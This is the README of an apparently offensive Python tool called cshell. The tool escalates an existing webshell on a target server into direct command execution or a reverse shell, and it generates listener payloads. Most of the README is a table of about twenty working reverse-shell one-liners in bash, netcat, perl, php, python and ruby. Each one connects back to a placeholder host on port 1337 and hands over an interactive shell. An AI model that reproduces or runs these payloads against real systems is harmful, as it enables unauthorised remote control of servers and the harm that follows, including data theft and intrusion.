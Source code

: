 # CSHELL
***
[![PyPI version fury.io](https://badge.fury.io/py/ansicolortags.svg)](https://pypi.python.org/pypi/cshell/) ||
  [![forthebadge made-with-python](http://ForTheBadge.com/images/badges/made-with-python.svg)](https://www.python.org/) ||
  [![GitHub license](https://img.shields.io/github/license/Naereen/StrapDown.js.svg)](https://github.com/0z09e/cshell/LICENSE)

***
This script takes a working webshell as an argument and can perform the following operations
- rev : This option sends a payload according to your choice and triggers that payload on the target webshell<br\>
- web : This parameter can execute direct command on the webshell using persisted working directory and error message<br/>
- lstnr : This option generates a payload and copies it to the clipboard. It can also start a listener, and also encodes the payload [Both are Optional]

## Install
```pip3 install cshell```
### Usage
```
$ cshell --help
usage: cshell.py [-h] [--payloads] {rev,web,lstnr} ...

positional arguments:
  {rev,web,lstnr}

optional arguments:
  -h, --help       show this help message and exit
  --payloads       List all payload formats for rev

web     Direct command execution on the webshell with error message
rev     Reverse shell from a working webshell
lstnr   Generate payload, copy it to your clipboard and start a listener[Optional]
```


### Payloads
```
$ cshell --payloads
========================================================================================================
Format-Name                     Payload
========================================================================================================
bash-196                        0<&196;exec 196<>/dev/tcp/127.0.0.1/1337; bash <&196 >&196 2>&196
bash                            bash -i >& /dev/tcp/127.0.0.1/1337 0>&1
bash-read-line                  exec 5<>/dev/tcp/127.0.0.1/1337;cat <&5 | while read line; do $line 2>&5 >&5; done
bash-5                          bash -i 5<> /dev/tcp/127.0.0.1/1337 0<&5 1>&5 2>&5
bash-udp                        bash -i >& /dev/udp/127.0.0.1/1337 0>&1
nc-mkfifo                       rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 127.0.0.1 1337 >/tmp/f
nc                              nc -e /bin/bash 127.0.0.1 1337
nc-c                            nc -c /bin/bash 127.0.0.1 1337
ncat-e                          ncat 127.0.0.1 1337 -e /bin/bash
perl                            perl -e 'use Socket;$i="127.0.0.1";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'
php-exec                        php -r '$sock=fsockopen("127.0.0.1",1337);exec("bash <&3 >&3 2>&3");'
php-shell-exec                  php -r '$sock=fsockopen("127.0.0.1",1337);shell_exec("bash <&3 >&3 2>&3");'
php-system                      php -r '$sock=fsockopen("127.0.0.1",1337);system("bash <&3 >&3 2>&3");'
php-passthru                    php -r '$sock=fsockopen("127.0.0.1",1337);passthru("bash <&3 >&3 2>&3");'
php-popen                       php -r '$sock=fsockopen("127.0.0.1",1337);popen("bash <&3 >&3 2>&3", "r");'
python                          python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
python-export                   export RHOST="127.0.0.1";export RPORT=1337;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
python3                         python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
python3-export                  export RHOST="127.0.0.1";export RPORT=1337;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")
ruby                            export RHOST=127.0.0.1;export RPORT=1337;ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
